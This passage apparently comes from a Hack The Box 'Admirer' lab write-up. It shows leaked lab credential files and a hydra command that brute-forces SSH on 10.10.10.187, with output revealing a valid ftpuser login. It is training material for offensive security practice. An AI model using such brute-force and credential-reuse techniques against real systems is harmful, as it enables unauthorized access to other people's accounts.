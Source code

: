 ```text
# Amy
Email: a.bialik@admirer.htb

# Leonard
Email: l.galecki@admirer.htb

#############
# designers #
#############
# Howard
Email: h.helberg@admirer.htb

# Bernadette
Email: b.rauch@admirer.htb
```

The file `contacts.txt` contained some more potential usernames and a potentially useful email address format. I also noticed that `waldo` seemed to be a fan of The Big Bang Theory tv show, which could also be useful information. 

```text
[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!
```

`credentials.txt` contained credentials for a few services, so I added them to my `users` and `passwords` files.  

## Initial Foothold

Next I used `hydra` to attempt a brute-force attack against SSH to see if any of the credentials would allow me to log in.

```text
zweilos@kali:~/htb/admirer$ hydra -L users -P passwords 10.10.10.187 ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-04 15:40:32
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 30 login tries (l:10/p:3), ~2 tries per task
[DATA] attacking ssh://10.10.10.187:22/
[22][ssh] host: 10.10.10.187   login: ftpuser   password: %n?4Wz}R$tTF7
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-04 15:40:38
```

